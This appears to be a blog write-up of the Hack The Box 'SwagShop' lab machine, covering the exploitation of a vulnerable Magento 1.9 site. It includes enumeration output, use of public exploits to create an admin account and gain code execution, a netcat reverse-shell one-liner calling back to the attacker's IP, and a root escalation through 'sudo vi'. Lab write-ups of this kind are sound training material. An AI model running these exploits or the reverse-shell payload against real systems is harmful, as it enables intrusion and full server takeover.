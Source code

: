 ```yaml
---
layout: single
title: Swagshop - Hack The Box
excerpt: "SwagShop is one of those easy boxes where you can pop a shell just by using public exploits. It's running a vulnerable Magento CMS on which we can create an admin using an exploit then use another exploit to get RCE. To privesc I can run vi as root through sudo and I use a builtin functionality of vi that allows users to execute commands from vi so I can get root shell."
date: 2019-09-28
classes: wide
header:
  teaser: /assets/images/htb-writeup-swagshop/swagshop_logo.png
categories:
  - hackthebox
  - infosec
tags:
  - linux
  - magento
  - vi
  - sudo
---
```


![](/assets/images/htb-writeup-swagshop/swagshop_logo.png)

SwagShop is one of those easy boxes where you can pop a shell just by using public exploits. It's running a vulnerable Magento CMS on which we can create an admin using an exploit then use another exploit to get RCE. To privesc I can run vi as root through sudo and I use a builtin functionality of vi that allows users to execute commands from vi so I can get root shell.

## Summary

- A Vulnerable Magento CMS 1.9.0 instance is running and we can use a CVE to create an admin account
- We then use another exploit to get RCE and a shell on the box
- `vi` is in the sudoers file for www-data and we can execute a shell as root from withing `vi` with `:!/bin/sh`

## Tools/Blogs used

- Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution
- Magento eCommerce - Remote Code Execution

## Detailed steps

### Portscan

```
# nmap -sC -sV -p- 10.10.10.140
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-11 20:52 EDT
Nmap scan report for swagshop.htb (10.10.10.140)
Host is up (0.011s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://10.10.10.140/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Website enumeration

The website is running the Magento CMS:

![](/assets/images/htb-writeup-swagshop/webpage.png)

Gobuster finds the directories associated with Magento:

```
# gobuster -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 50 -u http://10.10.10.140
/app (Status: 301)
/downloader (Status: 301)
/errors (Status: 301)
/favicon.ico (Status: 200)
/includes (Status: 301)
/js (Status: 301)
/lib (Status: 301)
/media (Status: 301)
/pkginfo (Status: 301)
/server-status (Status: 403)
/shell (Status: 301)
/skin (Status: 301)
/var (Status: 301)
=====================================================
2019/05/11 20:57:10 Finished
=====================================================
```

Indexing is on for those directories:

![](/assets/images/htb-writeup-swagshop/indexing.png)

I have access to `/app/etc/local.xml` which contains the encrypted database password and the encryption key.

![](/assets/images/htb-writeup-swagshop/local.png)

I could not find any public tool to decrypt the password and because this is a 20 pts box there's probably some generic CVE exploit online that I can use.

### Getting a shell

A quick look with `searchsploit magento` shows the two interesting exploits:

- Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution
- Magento eCommerce - Remote Code Execution

The `Magento eCommerce - Remote Code Execution` exploit creates a new admin account with `forme/forme` as credentials. I just need to modify the target and the exploit and launch it to get an admin account:

```
# python 37997.py
WORKED
Check http://10.10.10.140/index.php/admin with creds form
```

I can now log in to the admin panel:

![](/assets/images/htb-writeup-swagshop/admin1.png)

![](/assets/images/htb-writeup-swagshop/admin2.png)

I'll use the other exploit `Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution` to gain remote code execution. I need to change the `username`, `password`, and `install_date` parameters. The `install_data` is in the `local.xml` I found earlier.

```
username = 'forme'
password = 'forme'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml
```

Launching exploit to spawn a reverse shell:

```
python 37811.py http://10.10.10.140/index.php/admin "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 9999 >/tmp/f"

# nc -lvnp 9999
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.140.
Ncat: Connection from 10.10.10.140:44376.
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cd /home
$ ls
haris
$ cat haris/user.txt
a44887...
```

### Privesc

The privesc is obvious: The `www-data` user can execute `vi` as root. I know I can spawn a shell from within `vi` with `:!/bin/sh` and it'll run as root because of sudo.

```
$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@swagshop:/home$ sudo /usr/bin/vi /var/www/html/pwn -c ':!/bin/sh'

# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
c2b087...

   ___ ___
 /| |/|\| |\
/_| ´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
#
```